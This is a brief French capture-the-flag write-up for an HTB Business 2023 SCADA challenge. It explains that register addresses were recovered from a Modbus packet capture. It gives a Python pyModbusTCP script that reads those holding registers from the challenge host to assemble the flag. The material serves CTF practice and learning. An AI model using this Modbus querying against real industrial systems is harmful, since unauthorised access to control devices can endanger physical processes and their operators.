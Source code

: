 ```yaml
---
title: "Intrusion - Scada"
author: "xThaz"
context: "HTB Business 2023"
tags : ["Write-Up", "HTB"]
---
```

# Intrusion - SCADA

On a un pcap avec toujours la même séquence de réponses Modbus.
![](https://i.imgur.com/WDDUQbu.png)

On récupère les addresses auxquelles on a écrit avec **Write Multiple Registers (16)**? (je sais pas pourquoi, me demandez pas).

```python
from pyModbusTCP.client import ModbusClient

c = ModbusClient(host='94.237.48.19', port=33199, unit_id=52, auto_open=True)

regs = [6,10,12,21,22,26,47,53,63,77,83,86,89,95,96,104,123,128,131,134,139,143,144,145,153,163,168,173,179,193,206,210,214,215,219,221,224,225,226,231,239,253] # Recovered from pcap
flag = ""
for reg in regs:
    d = c.read_holding_registers(reg, 1)[0]
    flag += chr(d)

print(flag)
```
